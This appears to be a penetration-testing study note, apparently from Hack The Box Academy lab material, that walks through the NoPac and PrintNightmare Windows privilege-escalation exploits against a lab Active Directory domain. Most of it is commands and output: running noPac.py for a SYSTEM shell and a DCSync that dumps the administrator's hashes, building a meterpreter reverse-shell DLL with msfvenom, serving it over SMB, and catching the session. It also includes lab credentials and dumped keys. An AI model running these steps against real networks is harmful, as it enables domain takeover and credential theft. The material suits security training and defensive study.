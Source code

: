 # Bleeding Edge Vulnerabilities

### NoPac (SamAccountName Spoofing)

CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

By default, authenticated users can add up to [ten computers to a domain](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/add-workstations-to-domain). When doing so, we change the name of the new host to match a Domain Controller's SamAccountName. Once done, we must request Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name. When a TGS is requested, it will issue the ticket with the closest matching name. Once done, we will have access as that service and can even be provided with a SYSTEM shell on a Domain Controller.

**Cloning the NoPac Exploit Repo**

```shell-session
carbonlky@htb[/htb]$ git clone https://github.com/Ridter/noPac.git
```

**Scanning for NoPac**

```shell-session
carbonlky@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663
```

**Running NoPac & Getting a Shell**

```shell-session
carbonlky@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                               
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Adding Computer Account "WIN-LWJFQMAXRVN$"
[*] MachineAccount "WIN-LWJFQMAXRVN$" password = &A#x8X^5iLva
[*] Successfully added machine account WIN-LWJFQMAXRVN$ with password &A#x8X^5iLva.
[*] WIN-LWJFQMAXRVN$ object = CN=WIN-LWJFQMAXRVN,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] WIN-LWJFQMAXRVN$ sAMAccountName == ACADEMY-EA-DC01
[*] Saving ticket in ACADEMY-EA-DC01.ccache
[*] Resting the machine account to WIN-LWJFQMAXRVN$
[*] Restored WIN-LWJFQMAXRVN$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
[*] Attempting to del a computer with the name: WIN-LWJFQMAXRVN$
[-] Delete computer WIN-LWJFQMAXRVN$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\sNoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use ls to confirm.
```

NoPac.py does save the TGT in the directory on the attack host where the exploit was run.&#x20;

We can use the ticket to perform Ptt and perform DCSync.

We can also use the tool with the `-dump` flag to perform a DCSync using secretsdump.py.

**Using noPac to DCSync the Built-in Administrator Account**

```shell-session
carbonlky@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                                                    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```

### PrintNightmare

`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems.

**Cloning the Exploit**

```shell-session
carbonlky@htb[/htb]$ git clone https://github.com/cube0x0/CVE-2021-1675.git
```

For this exploit to work successfully, we will need to use cube0x0's version of Impacket.

**Install cube0x0's Version of Impacket**

```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

We can use `rpcdump.py` to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

**Enumerating for MS-RPRN**

```shell-session
carbonlky@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

After confirming this, we can proceed with attempting to use the exploit. We can begin by crafting a DLL payload using `msfvenom`.

**Generating a DLL Payload**

```shell-session
carbonlky@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

We will then host this payload in an SMB share we create on our attack host using `smbserver.py`.

**Creating a Share with smbserver.py**

```shell-session
carbonlky@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

**Configuring & Starting MSF multi/handler**

```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```

**Running the Exploit**

```shell-session
carbonlky@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

[*] Connecting to ncacn_np:172.16.5.5[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\172.16.5.225\CompData\backupscript.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

<SNIP>
```

**Getting the SYSTEM Shell**

```shell-session
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```











